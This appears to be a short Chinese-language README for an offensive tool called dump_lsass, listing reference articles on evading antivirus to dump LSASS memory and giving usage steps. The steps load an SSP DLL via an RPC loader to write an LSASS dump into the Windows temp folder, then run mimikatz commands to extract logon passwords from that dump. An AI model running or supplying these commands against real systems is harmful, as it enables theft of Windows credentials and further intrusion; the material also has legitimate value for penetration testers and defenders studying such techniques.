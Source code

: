 # dump_lsass
# 参考

[https://www.4hou.com/posts/y6jW](https://www.4hou.com/posts/y6jW)

[这是一篇“不一样”的真实渗透测试案例分析文章](https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/#442-%E7%BB%95%E8%BF%87%E5%8D%A1%E5%B7%B4%E6%96%AF%E5%9F%BA%E6%8A%93lsass%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81)

[https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e](https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e)

对于代码做了部分修改，使用vs2019编译，选择x64编译
# 使用方法
···
ssp_rpc_loader.exe Dll1.dll
dir c:\windows\temp
mimikatz.exe "sekurlsa::minidump 1.bin" "sekurlsa::logonPasswords full" "exit"
···
